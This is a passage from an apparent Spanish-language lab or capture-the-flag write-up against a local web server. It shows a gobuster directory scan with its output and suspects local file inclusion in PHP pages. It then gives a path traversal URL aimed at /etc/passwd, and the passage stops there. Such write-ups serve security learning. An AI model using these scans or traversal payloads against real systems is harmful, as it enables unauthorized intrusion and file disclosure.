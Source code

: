 ```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.59/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/images               (Status: 200) [Size: 2289]
/about.php            (Status: 200) [Size: 1446]
/home.php             (Status: 200) [Size: 2534]
/index.php            (Status: 200) [Size: 3735]
/.php                 (Status: 403) [Size: 277]
Progress: 2896 / 882244 (0.33%)[ERROR] Get "http://192.168.5.59/contact.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/cars.php             (Status: 200) [Size: 1502]
/connect.php          (Status: 500) [Size: 0]
Progress: 9363 / 882244 (1.06%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 9501 / 882244 (1.08%)
===============================================================
Finished
===============================================================
```

Veremos varias cosas interesantes, entre ellas que utiliza mucho `PHP` por lo que podemos intuir que pueda tener algun `LFI` en algun `PHP`, vamos a investigar un poco mas.

Si le damos alguna pestaña de la pagina veremos en la `URL` algo asi:

```
URL = http://<IP>/index.php?page=home
```

Vemos que esta utilizando el parametro `page`, si probamos ha realizar algo como esto:

```
URL = http://<IP>/index.php?page=../../../../../etc/passwd
```
